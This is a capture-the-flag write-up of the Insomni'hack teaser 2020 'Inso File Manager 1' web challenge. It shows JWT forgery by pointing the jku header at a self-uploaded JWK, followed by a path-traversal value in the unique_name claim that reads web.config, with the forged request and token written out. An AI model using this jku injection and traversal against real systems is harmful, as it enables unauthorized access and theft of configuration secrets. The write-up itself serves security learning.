 ```yaml
---
title: "Insomni'hack teaser 2020 - Inso File Manager 1 (Web)"
date: 2020-01-21T13:37:00+01:00
author: "SlaxXx"
description: "Challenge writeup: 'filemanager 1'@Insomnia'hack teaser 2020"
---
```

***TL;DR***
Dont trust user suppplied data, don´t screw up your jwt validation.

# Understanding the application
The Ino Filemanager lets us, after registration, upload files and make them publicly available. 

After registering a user and logging in, we observed that we were issued a JSON Web Token (*JWT*).
The JWT will be stored in the local storage of the used browser and it will be transmitted with every request to the server.

```
{"Id":0,"Guid":"69a96f63-cc31-4a42-bcf8-03b3e9705428","Username":"SlaxXx","Password":null,"Token":"eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjY5YTk2ZjYzLWNjMzEtNGE0Mi1iY2Y4LTAzYjNlOTcwNTQyOCIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ3MjQwLCJleHAiOjE1ODAyNTIwNDAsImlhdCI6MTU3OTY0NzI0MH0.aqEGHdNOaw-qcToTQkqdTvws2boYydo7wZVYJPWzjcvbEzWslsHUlyBD2yHdPj3iyPfc2p3KpTDfCRMRNoTjSyx7n6s-2N143fZ22EuD7kaSgGOuFbqs3SD0_Ot7LzVcwYJfVCUFiFC5Xw4gcwnuSraCp9x0gNtdEJCzDN5weMvH1qy6bBnm3wGDvfWBxXqho2hAqO5bOAqyBf_jZK0JKUvchQ62jEKMjcK97qBSfEY_RTAwVJYHvyspajvfbep9RWnW0rOqX22FsxHp0uJfK9WUiQFYGMl9Fal3I49qD4Cd42sLZ3ncD0IFepKDSxb5gGhf5fa3ZfPOmwOKTbKsPw","Role":"User"}
```
We decoded the JWT with the help of [jwt.io](https://jwt.io).
For more informations about JSON Web Tokens visit [JWT introduction](https://jwt.io/introduction/) or the offical [RFC](https://tools.ietf.org/html/rfc7519#section-4.1.4).
The decoded parts are as follows:

## Header
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/jwk.json"
}
```
``"alg": "RS256"``: The algorithm used to sign the JWT is RSA256. The token is signed by a private key and validated against the corresponding public key.  

``"kid": "inso20"``: The id of the used key is *inso20*. 

``"typ": "JWT"``: This is a JSON Web Token... duh... 

``"jku": "https://filemanager.insomnihack.ch/jwk.json"``: The public key to validate the token signature can be found at *https://filemanager.insomnihack.ch/jwk.json*

## Payload
```
{
  "unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428",
  "role": "User",
  "nbf": 1579647240,
  "exp": 1580252040,
  "iat": 1579647240
}
```
``"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"``: This seems to be a unique id generated for the registered user by the application. This will be important later.

``"role": "User"``: A role assigned to the registered user. 

``"nbf": 1579647240``: The *nbf* (not before) claim identifies the time before which the JWT MUST NOT be accepted for processing. 

``"exp": 1580252040``: The *exp* (expiration time) claim identifies the expiration time on or after which the JWT MUST NOT be accepted for processing

## Signature
From the header section, we now know that the algorithm used to sign the JWT is RSA256 and the public certificate to validate the signature can be found at *https://filemanager.insomnihack.ch/jwk.json*.

Accessing the public reveals, that indeed the ``kid`` id is *inso20*. 

```
{
  "kty": "RSA",
  "e": "AQAB",
  "alg": "RS256",
  "kid": "inso20",
  "n": "kE2FzXws8q2GnkNaQsQBIcSe0zZsxRe35V5rCXJRX9A1J5NCHoZiJS4LFDJW3n7Z5yNdntCKk9L7wYkOAxNiqPQHWuIk4Nyg3ZViZJLbO0fyx3eq-FSYhcfIePzD9Uz1ZgjBwavUi3ya8WoMv5ffG89OeTiVy7E1M-f7ykm205Nl11wrWXyyIWiyhchTl5baZzf3xLy-zn1s9yC2z13XOst-5pde4kfntIadYcdg9__VpYo6-k5sdpTlK7jPpKfUhfmRudgdf8Q37vLT5WlGFt-zh_D_QcNqc0heb4dhwgpgaqu-NJ7n6MJn6TDXes2qb-aLDFpwlJv9qULy7UdEDw"
}
```
We also see that the public key is in the JSON Web Key (JWK) format, informations regarding the JWK can be found in the offical [RFC](https://tools.ietf.org/html/rfc7517). 

The file manager of course also has an upload function.
![upload](/img/upload.jpg)
The upload will result in the http request below
```
POST /api/Files/Upload HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
Content-Type: application/json;charset=utf-8
...SNIP...

{"filename":"Sharkzwithlazers.pizza","content":"eW9sb1Bpenph"}
```
The previously received token is now transferred in the ``Authorization`` Header.
Filename and base64 encoded file content are transmitted in the json request body.
Once transmitted the server responses with a generated unique id.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
...SNIP...

"7db3bf68-f007-445c-8f42-c3802ec39738"
```
Once uploaded we can click on the uploaded file to get the stored content, see screenshot below.
![getContent](/img/getContent.jpg)
The click resultet in the http request below 
```
GET /api/Files/GetFile/7db3bf68-f007-445c-8f42-c3802ec39738 HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
...SNIP...

```
The previously received id ``7db3bf68-f007-445c-8f42-c3802ec39738`` is now used to access the file content.

Besides uploading and viewing files it is also possible to make files publicly available.
After ticking the *public* checkbox a publicly available url is generated where everyone can access the uploaded file.
![set public](/img/public.jpg)
If we disect the public url `.../api/files/public/7db3bf68-f007-445c-8f42-c3802ec39738/08eff17a-cd9f-4ead-8271-77cea7d1ec5c` we can see that the first dynamic part `7db3bf68-f007-445c-8f42-c3802ec39738` is the generated file id and the second is the `"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"` from our JWT.



Enough talking let`s get hacking.

# Exploit
![letsGo](/img/letsgo.png)

First, we noticed, that we can control the `jku` from the JWT.
If we entered another url, for example https://sharkzwithlazers.pizza the request will hang for a significant amount of time until it fails.
However we didn´t receive an http request on our server, our guess was that external communication was not possible.
But since we are able to publish files on the filemanager itself we can simply upload a JWK file there and publish it.
To create such a JWK file we used [jwt.io](https://jwt.io/) to create a *RS256* signet JWT token.  
The site autogenerates private and public key for the created JWT.
The public key must be converted from the PEM format used by jwt.io to JWK format.
This is done by using [this site](https://irrte.ch/jwt-js-decode/pem2jwk.html). 
To make the key id of the server and the JWT match, we had to add the keyid to the JWK.
The generated JWK can be seen below and also downloaded [here](/docs/sharkz.jwk):
```
{
    "kty": "RSA",
    "kid": "inso20",
    "n": "nzyis1ZjfNB0bBgKFMSvvkTtwlvBsaJq7S5wA-kzeVOVpVWwkWdVha4s38XM_pa_yr47av7-z3VTmvDRyAHcaT92whREFpLv9cj5lTeJSibyr_Mrm_YtjCZVWgaOYIhwrXwKLqPr_11inWsAkfIytvHWTxZYEcXLgAXFuUuaS3uF9gEiNQwzGTU1v0FqkqTBr4B8nW3HCN47XUu0t8Y0e-lf4s4OxQawWD79J9_5d3Ry0vbV3Am1FtGJiJvOwRsIfVChDpYStTcHTCMqtvWbV6L11BWkpzGXSW4Hv43qa-GSYOD2QU68Mb59oSk2OB-BtOLpJofmbGEGgvmwyCI9Mw",
    "e": "AQAB"
}
```
Next we saved the created JWK to a file and uploaded it to the filemanager and used the publish funtion to make it publicly available.
Once uploaded we changed ``jku`` to point to our uploaded JWK.
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/api/files/public/d8715758-9adb-4d3b-8015-e4029ba43e7f/79a3696b-97f6-4132-9f82-ca1f42f34ff2"
}
```
Since the server is now checking the JWT against our JWK we can change it to our liking and sign it using the known private key.
We have done this using jwt.io, see screenshot below.
![jwtToken](/img/jwtio.jpg)
This means we can send any ``unique_name`` inside the JWT and the server will accept it. As far as we know, the ``unique_name`` is part of the file structure and will probably be the folder where our user's files are stored.
Next we tried accessing the *web.config* by issuing the below *GetFile* request.
We created a token where the ``unique_name``  is set to ``..\\..\\..\\..\\inetpub\\wwwroot`` and the requested file to ``web.config``.
```
GET /api/Files/GetFile/web.config HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvYXBpL2ZpbGVzL3B1YmxpYy9kODcxNTc1OC05YWRiLTRkM2ItODAxNS1lNDAyOWJhNDNlN2YvNzlhMzY5NmItOTdmNi00MTMyLTlmODItY2ExZjQyZjM0ZmYyIn0.eyJ1bmlxdWVfbmFtZSI6Ii4uXFwuLlxcLi5cXC4uXFxpbmV0cHViXFx3d3dyb290Iiwicm9sZSI6IlVzZXIiLCJuYmYiOjE1Nzk2NDcyNDAsImV4cCI6MTU4MDI1MjA0MCwiaWF0IjoxNTc5NjQ3MjQwfQ.bxV1lHqgleVRCNH9XqEWKehR3ffI5gA3Woi3T4Dheihwfw3dRx6Ge_ewfdhRZJSHnxt4l9QEJiZqiEEz_dxlsJlePg1cdypX5bJdvxfvmvqo2LGlfFRkZr26CIdTZf4NWB4PJkPb82GcVLghh-_ugNxIxRTSp2oVKWiIoBLQJgEp27bjW-ZYMzXuV0QDmq5vQRKcwwVH5l2z0s7uHNCzSMye3B6D59Wb377RQEvWaEpfVgVAwffV6igXWjluQJFEcEd_3yv60bPMRiLykZB9LpUxqugAih3huuCZRfRsGvzTkVrST0sFJd0b5scQxRah9zduM3U7BfXov89TiP42jg
...SNIP...

```
With this request we were able to read the *web.config* which contained the flag.
Unfortunately I forgot to take screenshots or store the requests of the response so I´m not able to show you that it worked. \*sad face intensivies\*